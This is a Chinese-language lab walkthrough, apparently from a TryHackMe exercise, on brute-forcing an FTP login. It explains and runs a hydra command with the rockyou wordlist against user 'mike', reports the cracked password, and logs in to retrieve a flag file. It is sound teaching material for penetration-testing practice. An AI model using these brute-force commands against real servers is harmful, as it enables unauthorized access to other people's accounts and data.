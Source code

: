 用于暴力破解ftp服务器密码的hydra命令将如下所示：

```bash
hydra -t 4 -l mike -P /usr/share/wordlists/rockyou.txt -vV [machine IP] ftp

#SECTION                       FUNCTION 

#hydra                         启动hydra

#-t 4                          设置每个目标的并行连接数为4

#-l [user]                     用户名

#-P [path to dictionary]       用于暴力破解的密码字典文件的路径

#-vV                           将verose模式设置为非常详细，这将显示每次尝试的 login + pass 组合（verose模式--详细输出模式）

#[machine IP]                  目标机器的IP地址

#ftp / protocol                设置要进行暴力破解的相关协议
```

**答题**

基于上一小节的枚举结果，我们已经知道了一个有效的FTP用户名(mike)；接下来我们将使用hydra工具 针对有效的ftp用户进行暴力破解--一旦破解成功，我们就能得到用户的FTP登录凭据。

```bash
hydra -t 4 -l mike -P /usr/share/wordlists/rockyou.txt -vV 10.10.174.84 ftp
```

![image-20230316221709982](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20230316221709982.png)

> 破解得到的mike用户的密码为：password

使用暴力破解得到的密码登陆有效用户(mike)的ftp服务 并查看目标文件内容（`get fileName.txt -`）

```bash
ftp 10.10.174.84 -p 21
mike
password
ls
get ftp.txt -
```

![image-20230316221948732](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20230316221948732.png)

> 目标文件内容为：THM{y0u\_g0t\_th3\_ftp\_fl4g} 。

![image-20230316223048431](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20230316223048431.png)

## 知识扩展

请阅读以下参考文章：

* https://gregit.medium.com/exploiting-simple-network-services-in-ctfs-ec8735be5eef
* https://attack.mitre.org/techniques/T1210/
* https://www.nextgov.com/cybersecurity/2019/10/nsa-warns-vulnerabilities-multiple-vpn-services/160456/
